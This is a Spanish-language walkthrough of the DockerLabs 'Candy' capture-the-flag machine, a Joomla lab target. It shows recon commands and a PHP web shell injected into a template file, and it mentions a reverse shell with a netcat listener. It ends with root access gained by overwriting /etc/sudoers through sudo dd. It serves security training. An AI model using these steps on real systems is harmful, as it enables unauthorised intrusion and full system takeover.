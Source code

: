 ```yaml
---
title: Candy - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | Luisillo_o        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/78b9f3c1-81db-480e-884d-be8bbfed7b1e)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/65c0f947-e2bd-4fcc-9c1a-d6054a912860)

# Exploración Web
Al navegar al puerto `80`, descubrimos un sitio web de `Joomla`.

![image](https://github.com/user-attachments/assets/36850d5a-fce8-4db7-9313-879c5f919e9c)

Vemos que tenemos también un `robots.txt` el cual contiene lo que parece un `usuario` y una `contraseña` al final.

![image](https://github.com/user-attachments/assets/129e696d-5893-40c1-96a8-174e2cd8c425)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/c3203ae4-dff2-4938-a70c-28346f56dc1d)

Recordando que antes vimos en `robots.tx`t un usuario `admin` y una contraseña, al probarla no nos deja acceder. Sin embargo, si accedemos a la página [CyberChef](https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=YzJGdWJIVnBjekV5TXpRMQ), nos dice que la contraseña está en **base64**.

![image](https://github.com/user-attachments/assets/7dcf3ecf-23c6-40d8-a1d2-b3be64522f41)

La contraseña es `sanluis12345`.

Ya estamos dentro del panel de administrador del servidor de Joomla.

![image](https://github.com/user-attachments/assets/a6f2421c-37b7-4350-a3b7-fe1cb30d48fb)

Ahora, para generar el `RCE`, debemos entrar en `system > Templates > Site Templates > Cassiopeia Details and Files`, y añadir en el archivo `index.php` lo siguiente:

```bash
<?php
       system($_GET['cmd']);
?>
```

![image](https://github.com/user-attachments/assets/69c1693c-3568-46cd-8688-e12b2dac1c80)

Ahora, si ponemos lo siguiente en la URL: `/index.php?cmd=id`, podemos comprobar que funciona.

![image](https://github.com/user-attachments/assets/ecea3218-1c82-4372-8379-61b3c87ac891)

Por lo que generaremos una revershell.

# Reverse Shell

Modificamos el archivo `index.php` para que sea una reverse shell utilizando la herramienta [Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) para crear una shell en PHP. 

![image](https://github.com/user-attachments/assets/050453d5-ff92-46ff-8313-11488998183f)

Simultáneamente, iniciamos `netcat` en nuestro sistema para escuchar conexiones entrantes:
```bash 
nc -lvnp 4444
```
Logramos acceso como` www-data`.

![image](https://github.com/user-attachments/assets/10c321b4-4476-4b15-82bc-538c244c6476)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Intrusion

Lo que haremos será usar el programa `linpeas` para ver qué nos puede detectar.

![image](https://github.com/user-attachments/assets/6a7efbd1-7968-411d-9b99-c786820ceede)

Encontramos la siguiente ruta: `/var/backups/hidden/otro_caramelo.txt`. Vamos a ver qué contiene.

![image](https://github.com/user-attachments/assets/318ac934-596d-456a-ab34-08125a442a64)

Vemos que contiene una contraseña para el usuario `luisillo`, intentamos el acceso.

![image](https://github.com/user-attachments/assets/058fa596-20e4-4030-a6d8-fab78d4d2468)

# Escalada de privilegios

Al ejecutar `sudo -l`, notamos que tiene permisos para ejecutar `dd` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

```bash
LFILE=/etc/sudoers
echo "luisillo ALL=(ALL:ALL) ALL" | sudo dd of=$LFILE
```

Ahora ponemos `sudo su`.

![image](https://github.com/user-attachments/assets/5c2b6b91-78e4-466a-8291-61dca1fa1068)

Ya somos root 

